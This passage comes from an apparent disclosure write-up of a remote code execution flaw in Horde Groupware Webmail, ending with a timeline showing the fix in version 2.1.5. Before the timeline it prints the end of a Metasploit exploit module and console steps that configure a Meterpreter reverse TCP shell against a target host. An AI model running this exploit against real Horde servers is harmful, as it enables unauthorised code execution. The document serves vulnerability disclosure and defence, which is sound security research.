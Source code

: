 ```ruby
      body = execute(cookie, 'printf("check")', true)
      return Exploit::CheckCode::Appears if body == 'check'
    rescue Msf::Exploit::Failed
    end
    return Exploit::CheckCode::Safe
  end

  def exploit
    cookie = login()
    upload_csv(cookie)
    # do not terminate the statement
    function_call = payload.encoded.tr(';', '')
    vprint_status("Sending payload: #{function_call}")
    execute(cookie, function_call, false)
  end
end
```
{: download="horde_csv_rce.rb"}

Place it in `~/.msf4/modules/exploits/multi/http/horde_csv_rce.rb`, then use it like:

```console
use exploit/multi/http/horde_csv_rce
set payload php/meterpreter/reverse_tcp
set lhost 10.10.10.10
set rhost target.com
set username username
set password password
run
```

[^module]: This module (with some modifications) is [now](https://github.com/rapid7/metasploit-framework/pull/13082#issuecomment-602563735) part of Metasploit.

## Timeline

2019-06-20
: First contact with SecuriTeam Secure Disclosure (SSD).

2019-07-14
: Disclosure via the SSD program.

2019-07-31
: SSD grants the reward.

2020-02-04
: Horde development team [fixes](https://lists.horde.org/archives/announce/2020/001285.html) the issue in version 2.1.5.

2020-02-07
: SSD publishes the [advisory](https://ssd-disclosure.com/archives/4097/ssd-advisory-horde-groupware-webmail-edition-remote-code-execution).

2020-03-23
: Rapid7 adds the [module](https://github.com/rapid7/metasploit-framework/pull/13082) to Metasploit.


[^kronolith]: Although it seems feasible according to the source code it does not seem possible to reach the feature via the web interface.
[horde-data]: https://github.com/horde/Data
[horde-data-fix]: https://github.com/horde/Data/commit/78ad0c2390176cdde7260a271bc6ddd86f4c9c0e#diff-e6c7843f9847ab630ddabc9b004e1e7d